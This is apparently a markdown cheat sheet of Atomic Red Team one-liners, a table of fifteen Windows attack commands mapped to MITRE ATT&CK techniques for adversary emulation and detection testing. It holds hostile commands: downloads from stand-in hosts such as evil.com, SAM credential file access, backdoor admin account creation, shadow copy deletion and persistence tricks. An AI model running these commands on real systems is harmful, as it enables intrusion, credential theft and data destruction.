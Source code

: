# 🔥 Atomic Red Team One-Liners with MITRE ATT&CK Mapping

|   # | Command                                                                                   | Description                             | MITRE Technique | MITRE Tactic          |
|----:|--------------------------------------------------------------------------------------------|-----------------------------------------|------------------|------------------------|
|   1 | powershell -Enc UwB0AGEAcgB0AC0AcwBsAGUAZQBwACAAMQAwAA==                                  | Obfuscated PowerShell                   | T1027.001        | Defense Evasion        |
|   2 | certutil -urlcache -split -f http://example.com/evil.exe evil.exe                         | File download using certutil            | T1105            | Command and Control    |
|   3 | reg add HKCU\...\Run                                                                       | Registry Run key persistence            | T1547.001        | Persistence             |
|   4 | wmic process call create "powershell.exe -Command IEX ..."                                 | Executes command via WMIC               | T1047            | Execution               |
|   5 | rundll32.exe javascript:"\..\mshtml,RunHTMLApplication "...                                | Executes JavaScript via rundll32        | T1218.011        | Defense Evasion        |
|   6 | schtasks /create /tn "EvilTask" /tr "cmd.exe /c calc.exe" /sc minute /mo 5                 | Scheduled task creation                 | T1053.005        | Persistence             |
|   7 | bcdedit /set {current} bootstatuspolicy ignoreallfailures                                 | Disables recovery boot                  | T1562.001        | Defense Evasion        |
|   8 | powershell -Command "Get-Content C:\Windows\System32\config\SAM"                           | Access to SAM file                      | T1003.002        | Credential Access       |
|   9 | net user backdoor Pass123! /add                                                            | Creates a user account                  | T1136.001        | Persistence             |
|  10 | net localgroup administrators backdoor /add                                                | Adds user to admin group                | T1068            | Privilege Escalation    |
|  11 | vssadmin delete shadows /all /quiet                                                        | Deletes shadow copies                   | T1490            | Impact                  |
|  12 | curl http://evil.com/malware.ps1 -o malware.ps1                                            | File download using curl                | T1105            | Command and Control     |
|  13 | bitsadmin /transfer myjob ...                                                              | File download using BITS                | T1197            | Command and Control     |
|  14 | powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(...)"                           | Obfuscated PowerShell w/ bypass         | T1059.001        | Execution               |
|  15 | echo malicious >> C:\Windows\System32\drivers\etc\hosts                                    | Modifies hosts file                     | T1565.001        | Impact                  |
